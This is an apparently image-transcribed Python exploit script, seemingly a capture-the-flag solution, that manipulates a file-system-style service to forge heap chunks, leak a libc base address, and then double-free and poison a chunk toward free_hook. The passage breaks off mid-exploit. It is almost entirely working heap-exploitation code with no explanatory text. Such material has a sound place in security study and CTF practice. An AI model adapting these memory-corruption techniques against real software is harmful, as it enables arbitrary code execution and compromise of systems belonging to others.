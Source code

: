 ```python

    d = "size"
    mkdir(s, d)
    cd(s, d)

    touch(s, "0")
    touch(s, "1")
    echo(s, "\x00" * 0x38, "./0", True)
    echo(s, "\x00" * 0x38, "./1", True)

    to_root(s)

    delete(s, 1, d)
    delete(s, 0, d)

    edit(s, 0, b"\x20", d)

    touch(s, "10")
    touch(s, "11")
    echo(s, "\x00" * 0x38, "./10", True)
    echo(s, "\x00" * 0x38, "./11", True)
    size = 0x420
    echo(s, p64(0x30) + p64(size + 1), "./11", True)

    cd(s, d)
    touch(s, "fake")
    mkdir(s, "junk")
    rm(s, "./junk")
    mkdir(s, "pwd")
    cd(s, "pwd")
    fake_chunk = b"a" * (0x410 - 0x40 - 0xb0 - 0x30 * 2) + p64(0x420) + p64(0x21) + b"a" * 0x18
    echo(s, fake_chunk, "../fake", True)

    rm(s, "../1")

    rm(s, "../../f0")
    rm(s, "../../home")

    touch(s, "unsort")
    # s.interactive()

    cut_size = 0xb0 + 0x30 * 2 + 0x10 - 0x8
    echo(s, "\r" * cut_size, "./unsort", True)

    libc_addr = u64(pwd(s, b"/size/").ljust(8, b"\x00")) - 0x3ebca0
    print(hex(libc_addr))

    to_root(s)
    to_root(s)

    mkdir(s, "double")
    cd(s, "double")
    touch(s, "free")
    echo(s, "\r" * 0x18, "free", True)
    to_root(s)
    delete(s, "free", "double")
    delete(s, "free", "double")

    touch(s, "poison1")
    echo(s, p64(libc_addr + free_hook_libc), "poison1", True)
    touch(s, "poison2")
    echo(s, "\r" * 0x18, "poison2", True)
    touch(s, "poison3")
```